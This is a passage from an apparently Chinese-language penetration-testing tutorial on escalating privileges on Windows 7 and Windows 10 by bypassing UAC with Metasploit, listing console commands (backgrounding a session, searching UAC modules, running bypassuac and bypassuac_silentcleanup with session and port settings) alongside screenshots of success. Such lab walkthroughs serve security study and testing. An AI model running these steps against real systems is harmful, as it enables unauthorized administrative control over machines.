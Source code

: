 ```
background  ##将会话置于后台，不然会在使用bypass的找不到会话。
```

![image-20230329091342914](https://s2.loli.net/2023/03/29/g6KS7FZ1VfNrHuA.png)

#### 搜索UAC绕过bypass方式

这里能够看到有很多的UAC绕过的bypass方式，但是这里面是分不同Windows版本的，有的可能在Windows7上能用，有的可能就不能用，不过最好选择日期靠近的，这样成功率大一点。

```
search uac  ##搜索
```

<img src="https://s2.loli.net/2023/03/29/UnCfJ2ydZuRaYSh.png" alt="image-20230329091803523" style="zoom: 50%;" />

#### 尝试使用UAC绕过提权

```
use exploit/windows/local/bypassuac   ##选择bypass
sessions         ##选择会话
set session 1    ##设定会话
set lport 5555   ##设定反弹端口，这里不设置也可以，但是有时候直接反弹回来，会出现反弹不成功的情况。
run  ##执行
```

![image-20230329092032982](https://s2.loli.net/2023/03/29/wzijGotCp672PFd.png)

#### 查看反弹效果

通过反弹回来的效果能够看到，成功提权了。

![image-20230329092520594](https://s2.loli.net/2023/03/29/iPIBnpELd5cDoRw.png)

### Windows10系统案例

这里还是使用默认的UAC等级进行提权。

#### 尝试getsystem提权

可以看到，这里同样是提权失败。

![image-20230329094116483](https://s2.loli.net/2023/03/29/BEpiQz2uRfH1sZS.png)

#### 尝试使用UAC绕过提权

这里我也是尝试了好几个bypass才成功的，环境不同，可能使用到的bypass也是不同的，有些bypass需要也能提权，但是需要点击确定，所以多尝试尝试。

```
use exploit/windows/local/bypassuac_silentcleanup   ##选择模块
sessions    ##选择会话
set session 5   ##设置会话
set lport 6666  ##设置监听端口
run   ##执行
```

